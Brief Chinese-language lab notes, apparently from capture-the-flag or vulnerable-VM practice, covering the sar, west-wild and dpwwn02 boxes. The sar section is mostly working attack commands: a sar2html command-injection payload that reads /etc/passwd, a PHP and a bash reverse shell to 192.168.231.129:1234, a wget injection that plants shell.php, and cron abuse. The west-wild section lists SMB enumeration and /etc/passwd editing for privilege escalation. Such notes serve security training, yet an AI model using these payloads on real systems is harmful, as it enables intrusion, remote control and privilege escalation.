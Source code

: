 

## dpwwn02



---





---



## sar

```
searchsploit 
searchsploit -p 编号exp 返回详细信息
searchsploit -m 名称编号 复制当前路径下
 
sar2html 命令执行
?plot=;cat%20/etc/passwd 

靶机下载反弹shell
shell.txt 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.231.129/1234 0>&1'") ?>

php -S 0:80 80端口用php开服务

;wget 192.168.231.129/shell.txt% -O shell.php 下载并重命名

cat /etc/crontable
ls -liah 看定时任务文件 是不是有权限读写


vi o 下一行 dd删除

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/192.168.231.129/1234 0>&1'
```





---



## west-wild

```
22 80 139 445 smb
目录没信息 端口有smb

先看smb139、445 信息泄露 80 22
smbmap -h 
smbclient -l '\\ip\用户'

80 背景图片 看有无隐写
wget ip/图片地址
exiftool 

1.第一个flag 要base64解密

ls -liah 一定要看隐藏文件 .viminfo
可以编辑/etc/passwd 有权限

```